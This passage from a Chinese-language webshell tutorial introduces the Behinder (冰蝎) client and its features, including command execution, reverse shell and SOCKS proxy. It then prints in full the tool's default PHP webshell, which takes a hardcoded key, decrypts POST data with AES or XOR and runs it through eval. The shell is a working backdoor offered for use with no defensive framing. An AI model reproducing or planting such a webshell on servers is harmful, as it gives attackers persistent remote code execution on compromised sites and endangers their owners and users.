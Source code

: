 
![image-20230815135824974](img/WebShell/image-20230815135824974.png)

此处 passwd=后面的值为 class 文件的 base64 编码。

### 2. 冰蝎(Behinder)

冰蝎”是一款动态二进制加密网站管理客户端。

github 地址：https://github.com/rebeyond/Behinder

"冰蝎"客户端基于 JAVA，所以可以跨平台使用，23 年最新版本为 4.0.6，兼容性较之前的版本有较大提升。主要功能为：基本信息、命令执行、虚拟终端、文件管理、Socks 代理、反弹 shell、数据库管理、自定义代码等，功能非常强大

#### 安装及使用

下载冰蝎后，server 文件夹内为默认的 webshell 代码，挑选需要的使用即可。

以 php 为例，加密密钥硬编码进了 webshell 代码里

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");

		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15];
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

```